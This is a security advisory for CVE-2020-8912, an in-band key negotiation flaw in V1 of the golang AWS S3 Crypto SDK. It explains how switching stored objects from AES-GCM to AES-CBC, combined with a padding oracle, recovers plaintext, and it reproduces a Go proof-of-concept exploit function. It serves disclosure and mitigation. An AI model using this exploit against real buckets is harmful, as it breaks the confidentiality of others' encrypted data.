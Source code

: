 ```yaml
---
title: ' AWS: In-band key negotiation issue in the AWS S3 Crypto SDK for golang'
severity: Low
ghsa_id: GHSA-7f33-f4f5-xwgw
cve_id: CVE-2020-8912
weaknesses: []
products:
- ecosystem: ''
  package_name: AWS S3 crypto SDK (aws-sdk-go/service/s3/s3crypto)
  affected_versions: V1
  patched_versions: V2
cvss: null
credits:
- github_user_id: sophieschmieg
  name: Sophie Schmieg
  avatar: https://avatars.githubusercontent.com/u/53278002?s=40&v=4
---
```


### Summary

The golang AWS S3 Crypto SDK is impacted by an issue that can result in loss of confidentiality and message forgery. The attack requires write access to the bucket in question, and that the attacker has access to an endpoint that reveals decryption failures (without revealing the plaintext) and that when encrypting the GCM option was chosen as content cipher.

### Risk/Severity

The vulnerability pose insider risks/privilege escalation risks, circumventing KMS controls for stored data.

### Impact

This advisory describes the plaintext revealing vulnerabilities in the golang AWS S3 Crypto SDK, with a similar issue in the non "strict" versions of C++ and Java S3 Crypto SDKs being present as well.

V1 of the S3 crypto SDK does not authenticate the algorithm parameters for the data encryption key.

An attacker with write access to the bucket can use this in order to change the encryption algorithm of an object in the bucket, which can lead to problems depending on the supported algorithms. For example, a switch from AES-GCM to AES-CTR in combination with a decryption oracle can reveal the authentication key used by AES-GCM as decrypting the GMAC tag leaves the authentication key recoverable as an algebraic equation.

By default, the only available algorithms in the SDK are AES-GCM and AES-CBC. Switching the algorithm from AES-GCM to AES-CBC can be used as way to reconstruct the plaintext through an oracle endpoint revealing decryption failures, by brute forcing 16 byte chunks of the plaintext. Note that the plaintext needs to have some known structure for this to work, as a uniform random 16 byte string would be the same as a 128 bit encryption key, which is considered cryptographically safe.

The attack works by taking a 16 byte AES-GCM encrypted block guessing 16 bytes of plaintext, constructing forgery that pretends to be PKCS5 padded AES-CBC, using the ciphertext and the plaintext guess and that will decrypt to a valid message if the guess was correct.

To understand this attack, we have to take a closer look at both AES-GCM and AES-CBC:
AES-GCM encrypts using a variant of CTR mode, i.e. `C_i = AES-Enc(CB_i) ^ M_i`. AES-CBC on the other hand *decrypts* via `M_i = AES-Dec(C_i) ^ C_{i-1}`, where `C_{-1} = IV`. The padding oracle can tell us if, after switching to CBC mode, the plaintext recovered is padded with a valid PKCS5 padding.

Since `AES-Dec(C_i ^ M_i) = CB_i`, if we set `IV' = CB_i ^ 0x10*[16]`, where `0x10*[16]` is the byte `0x10` repeated 16 times, and `C_0' = C_i ^ M_i'` the resulting one block message `(IV', C_0')` will have valid PKCS5 padding if our guess `M_i'` for `M_i` was correct, since the decrypted message consists of 16 bytes of value `0x10`, the PKCS5 padded empty string.

Note however, that an incorrect guess might also result in a valid padding, if the AES decryption result randomly happens to end in `0x01`, `0x0202`, or a longer valid padding. In order to ensure that the guess was indeed correct, a second check using `IV'' = IV' ^ (0x00*[15] || 0x11)` with the same ciphertext block has to be performed. This will decrypt to 15 bytes of value `0x10` and one byte of value `0x01` if our initial guess was correct, producing a valid padding. On an incorrect guess, this second ciphertext forgery will have an invalid padding with a probability of 1:2^128, as one can easily see.

This issue is fixed in V2 of the API, by using the `KMS+context` key wrapping scheme for new files, authenticating the algorithm. Old files encrypted with the `KMS` key wrapping scheme remain vulnerable until they are reencrypted with the new scheme.

### Mitigation

Using the version 2 of the S3 crypto SDK will not produce vulnerable files anymore. Old files remain vulnerable to this problem if they were originally encrypted with GCM mode and use the `KMS` key wrapping option.

### Proof of concept

A [Proof of concept](https://github.com/sophieschmieg/exploits/tree/master/aws_s3_crypto_poc) is available in a separate github repository.

This particular issue is described in [combined_oracle_exploit.go](https://github.com/sophieschmieg/exploits/blob/master/aws_s3_crypto_poc/exploit/combined_oracle_exploit.go):

```golang
func CombinedOracleExploit(bucket string, key string, input *OnlineAttackInput) (string, error) {
	data, header, err := input.S3Mock.GetObjectDirect(bucket, key)
	if alg := header.Get("X-Amz-Meta-X-Amz-Cek-Alg"); alg != "AES/GCM/NoPadding" {
		return "", fmt.Errorf("Algorithm is %q, not GCM!", alg)
	}
	gcmIv, err := base64.StdEncoding.DecodeString(header.Get("X-Amz-Meta-X-Amz-Iv"))
	if len(gcmIv) != 12 {
		return "", fmt.Errorf("GCM IV is %d bytes, not 12", len(gcmIv))
	}
	fullIv := make([]byte, 16)
	confirmIv := make([]byte, 16)
	for i := 0; i < 12; i++ {
		fullIv[i] = gcmIv[i] ^ 0x10
		confirmIv[i] = gcmIv[i] ^ 0x10
	}
        // Set i to the block we want to attempt to decrypt
	counter := i + 2
	for j := 15; j >= 12; j-- {
		v := byte(counter % 256)
		fullIv[j] = 0x10 ^ v
		confirmIv[j] = 0x10 ^ v
		counter /= 256
	}
	confirmIv[15] ^= 0x11
	fullIvEnc := base64.StdEncoding.EncodeToString(fullIv)
	confirmIvEnc := base64.StdEncoding.EncodeToString(confirmIv)
	success := false
        // Set plaintextGuess to the guess for the plaintext of this block
	newData := []byte(plaintextGuess)
	for j := 0; j < 16; j++ {
		newData[j] ^= data[16*i+j]
	}
	newHeader := header.Clone()
	newHeader.Set("X-Amz-Meta-X-Amz-Cek-Alg", "AES/CBC/PKCS5Padding")
	newHeader.Set("X-Amz-Meta-X-Amz-Iv", fullIvEnc)
	newHeader.Set("X-Amz-Meta-X-Amz-Unencrypted-Content-Length", "16")
	input.S3Mock.PutObjectDirect(bucket, key+"guess", newData, newHeader)
	if input.Oracle(bucket, key+"guess") {
		newHeader.Set("X-Amz-Meta-X-Amz-Iv", confirmIvEnc)
		input.S3Mock.PutObjectDirect(bucket, key+"guess", newData, newHeader)
		if input.Oracle(bucket, key+"guess") {
			return plaintextGuess, nil
		}
	}
	return "", fmt.Errorf("Block %d could not be decrypted", i)
}
```